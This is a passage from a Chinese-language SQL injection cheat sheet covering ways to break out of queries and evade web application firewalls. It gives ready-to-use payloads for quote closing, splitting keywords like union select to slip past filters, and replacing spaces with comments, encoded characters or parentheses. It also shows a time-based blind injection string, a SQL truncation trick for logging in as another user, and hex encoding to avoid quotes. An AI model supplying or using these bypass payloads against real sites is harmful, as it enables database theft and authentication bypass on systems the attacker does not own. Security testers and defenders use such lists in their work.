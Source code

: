 10. 闭合

		%df'
		'
		and '1'='1
		%23
		#
		-- 123
		#、–+用于终结语句的查询

11. 利用WAF逻辑漏洞

		比如你分析到最后，发现所有的*都被换成空白了，就意味着你不能使用内联注释了，union+select也会给你返回一个403错误，在这种情况下，你应该充分利用*被替换成空白：
			id=1+uni*on+sel*ect+1,2,3--+
		这样的话，*被过滤掉了，但是union+select被保留下来了。这是常见的WAF bypass技巧，当然不仅仅是union+select，其他的语法被过滤了都可以采用这种的。找到被替换的那个关键字，你就能找到绕过的方法

12. sql约束攻击

		1. 在所有的INSERT查询中，SQL都会根据varchar(n)来限制字符串的最大长度。也就是说，如果字符串的长度大于“n”个字符的话，那么仅使用字符串的前“n”个字符。比如特定列的长度约束为“5”个字符，那么在插入字符串“vampire”时，实际上只能插入字符串的前5个字符，即“vampi”
		2. 在SQL中执行字符串处理时，字符串末尾的空格符将会被删除。换句话说“vampire”等同于“vampire ”，对于绝大多数情况来说都是成立的（诸如WHERE子句中的字符串或INSERT语句中的字符串）例如以下语句的查询结果，与使用用户名“vampire”进行查询时的结果是一样的。
		3. 使用“vampire”与random_pass即可登录绕过
		4. 但也存在异常情况，最好的例子就是LIKE子句了。注意，对尾部空白符的这种修剪操作，主要是在“字符串比较”期间进行的。这是因为，SQL会在内部使用空格来填充字符串，以便在比较之前使其它们的长度保持一致。

###常见绕过实例
1. 绕过空格（注释符/* */，%a0）：

		两个空格代替一个空格，用Tab代替空格，%a0=空格,删除所有空格：
			%20 %09 %0a %0b %0c %0d %a0 %00 /**/  /*!*/
		最基本的绕过方法，用注释替换空格：
			/*  注释 */
		使用浮点数：
			select * from users where id=8E0union select 1,2,3
			select * from users where id=8.0 select 1,2,3

2. 括号绕过空格：

		如果空格被过滤，括号没有被过滤，可以用括号绕过。
		在MySQL中，括号是用来包围子查询的。因此，任何可以计算出结果的语句，都可以用括号包围起来。而括号的两端，可以没有多余的空格。
		例如：
			select(user())from dual where(1=1)and(2=2)

		这种过滤方法常常用于time based盲注,例如：
			?id=1%27and(sleep(ascii(mid(database()from(1)for(1)))=109))%23
			（from for属于逗号绕过下面会有）
		上面的方法既没有逗号也没有空格。猜解database（）第一个字符ascii码是否为109，若是则加载延时。

3. 引号绕过（使用十六进制）

		会使用到引号的地方一般是在最后的where子句中。如下面的一条sql语句，这条语句就是一个简单的用来查选得到users表中所有字段的一条语句：
			select column_name  from information_schema.tables where table_name="users"
		这个时候如果引号被过滤了，那么上面的where子句就无法使用了。那么遇到这样的问题就要使用十六进制来处理这个问题了。
		users的十六进制的字符串是7573657273。那么最后的sql语句就变为了：
			select column_name  from information_schema.tables where table_name=0x7573657273
